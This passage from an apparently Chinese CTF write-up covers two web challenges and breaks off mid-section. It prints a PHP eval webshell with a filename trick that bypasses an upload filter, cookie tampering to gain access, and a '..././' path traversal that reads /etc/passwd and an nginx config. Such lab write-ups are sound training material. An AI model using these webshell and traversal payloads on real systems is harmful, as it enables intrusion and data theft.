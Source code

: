 ```php
        $_SESSION['admin'] = True;
      }
     ?>
```

根据要求，首先page构造一个不是index.php的

接下来想办法带有admin的session，id参数要求浮点值不为1且最后一位是9，用1a9就可以构造了。这里用了escape过滤id，宽字节注入要求网站使用gbk编码，尝试了下并没有成功。

然后看到上面的upload模块，正则的意思是：文件名的末尾不能是.php,.php3等等，而不是说文件中间也不能出现这些字符。因此利用Linux的文件特性，可以如此构造

```
shell.php/nouse.php/..
con = <?php @eval($_POST['cmd']);?>
```

连接webshell就可以看到flag了。

`cyberpeace{530f4f16dccfe259a753b3ef56790fda}`

## i-got-id-200[unsolved]

回来一定做QAQ

去北京的飞机上我会把Perl学完

## Web_php_wrong_nginx_config

没什么用的登录页面。robots.txt提示了两个:hint.php和hack.php

hint.php:配置文件也许有问题呀：/etc/nginx/sites-enabled/site.conf

Hack.php，进入提示请登录。注意到isLogin的cookie，修改成1，成功进入。

注意到URL很有意思

```
http://111.198.29.45:41940/admin/admin.php?file=index&ext=php
```

可能有文件包含，但是直接输入

```
../../../../etc/passwd
```

显示不出东西

于是先做一次尝试：假设过滤并消除了`../`

```
http://111.198.29.45:41940/admin/admin.php?file=..././..././..././..././etc/passwd&ext=
```

能够读出。

```
..././..././..././..././etc/nginx/sites-enabled/site.conf&ext=conf
```

读取出site.conf内容是
